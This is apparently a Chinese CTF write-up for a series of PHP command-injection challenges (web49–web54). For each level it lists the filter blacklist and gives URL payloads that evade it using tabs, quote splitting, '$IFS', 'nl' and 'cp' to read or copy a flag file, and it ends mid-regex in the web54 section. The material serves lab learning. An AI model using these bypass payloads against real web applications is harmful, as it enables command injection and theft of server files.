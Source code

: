 # web49: shell重定向+/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail| sed | cut | awk | strings | od | curl | \`| /i

多了一个分号
```
?c=tac%09fla?.php%26%26ls
```

# web50:  shell重定向+/\;|cat|flag|  |[0-9]|\\$|\*|more|less|head|sort|tail| sed | cut | awk | strings | od | curl | \`| % | x09 | x26 |/i

%被ban了，x09是\t制表符，x26是&符号，空格都被ban了。只能使用一个不带空格的命令
```
?c=nl<fla''g.php||ls     //nl是一个读取命令，会读取后面的文件内容
```
[[nl指令用法]]

# web52：shell重定向+过滤"/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i

把$放出来了，可以使用复制或者重命名的方式
```
?c=cp$IFSfla?.php$IFSa.txt||ls
?c=ls||ls     //用于查看文件是否复制成功
一直没成功，要怀疑是不是没有写权限

?c=mv$IFSfla?.php$IFSa.txt||ls     //使用重命名，发现也不行

?c=mv${IFS}fla?.php${IFS}a.txt||ls     //标准空格写法，可以成功命名,访问a.txt，发现是假flag
?c=ls${IFS}/||ls     //查看根目录，发现了flag
?c=cp${IFS}/fla?{IFS}/var/www/html/b.txt||ls     //将flag文件复制到当前默认路径下，以b.txt保存，最后访问b.txt即可
```

# web53: system回显+过滤"/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i


> [!NOTE] system回显的特点
> 只会返回输出结果的最后一行
```
?c=ta''c${IFS}fla?.php     //单引号绕过
```

# web54:system回显+过滤/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i",
